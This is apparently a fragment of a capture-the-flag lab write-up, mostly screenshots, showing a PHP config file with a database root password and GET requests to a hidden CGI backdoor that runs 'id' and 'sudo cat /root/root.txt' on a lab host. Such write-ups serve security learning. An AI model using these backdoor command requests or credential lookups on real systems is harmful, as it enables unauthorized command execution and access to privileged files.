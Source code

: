 ```bash
jack@ubuntu:/var/www/html$ cat config.php
<?php
$servername = "localhost";
$username = "root";
$password = "MysqlPasswordIsPrettyStrong";
$dbname = "commentDB";
?>
jack@ubuntu:/var/www/html$ 
```

![image](https://github.com/user-attachments/assets/cd29fdf1-fb58-49ae-a31a-caff8d11269b)

![image](https://github.com/user-attachments/assets/6840fe3d-3214-4de3-9177-cb8f60ddb742)

![image](https://github.com/user-attachments/assets/46a26209-e0b8-4b6f-ac37-b27205adaf0d)

GET /cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id HTTP/1.1\r\n

/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id

![image](https://github.com/user-attachments/assets/3fc64eea-7642-4169-845d-74c87782b882)

![image](https://github.com/user-attachments/assets/b97c0e41-e494-44cb-8df7-8ef6fee432c3)

<p>Navigated to https://10.10.110.79:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sudo%20cat%20/root/root.txt</p

![image](https://github.com/user-attachments/assets/bb94c873-cb8e-450f-96ef-0fb9c171476a)


<br>
<br>

![image](https://github.com/user-attachments/assets/9dc063e3-8706-410f-a3f4-3ac4365c3064)

![image](https://github.com/user-attachments/assets/7582f35f-a4b6-4ec5-af9e-fdd6d3373e9d)

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| June 29, 2025     | 420      |     171ˢᵗ    |      5ᵗʰ     |     220ᵗʰ   |    6ᵗʰ    |  111,909 |    815    |     63    |

</div>

![image](https://github.com/user-attachments/assets/b2cc0cf4-af50-40e0-8417-c27a72956e40)

![image](https://github.com/user-attachments/assets/e209c486-0c62-44b9-9845-6e8e1c2594d9)

![image](https://github.com/user-attachments/assets/974a0b50-d772-4808-8199-1771fef124ae)

![image](https://github.com/user-attachments/assets/4f431974-794b-402f-b9ad-0d31eab6575d)

![image](https://github.com/user-attachments/assets/21d79850-3863-410b-8d17-a5901ac2ad23)

